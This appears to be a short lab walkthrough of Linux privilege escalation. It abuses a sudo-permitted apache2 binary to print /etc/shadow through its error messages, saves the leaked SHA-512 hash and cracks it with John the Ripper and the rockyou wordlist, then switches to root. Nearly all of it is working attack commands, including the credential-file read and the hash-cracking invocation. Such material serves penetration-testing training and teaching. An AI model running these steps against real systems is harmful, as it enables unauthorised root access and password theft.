



apache2
1. Target: List of programs the actual user is allowed to run:
target@debian:~$ sudo -l

We need to to do a research for each program that allow "sudo" and check if we can abuse its functionality
3. Target: go to GTFOBins (https://gtfobins.github.io/) and if we do not find anything, then search if we can abuse his functionality

◇ apache2 when we parse a file it will error and print any line it does not understand.
target@debian:~$ sudo apache2 -f /etc/shadow

4. Attacker: Save the hash in a file in the attacker machine
attacker@kali:/# echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt

5. Attacker: Crack the password
In this case as we have seen in Where are stored the passwords hashes in Linux, $6$ is the algorithm SHA-512
We can use rockyou.txt that has 14.344.392 entries(Download), to extract it “gzip -d rockyou.txt.gz”
attacker@kali:/# john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

6. Target: Switch to the root user with the cracked password
target@debian:~$ su #insert the password cracked
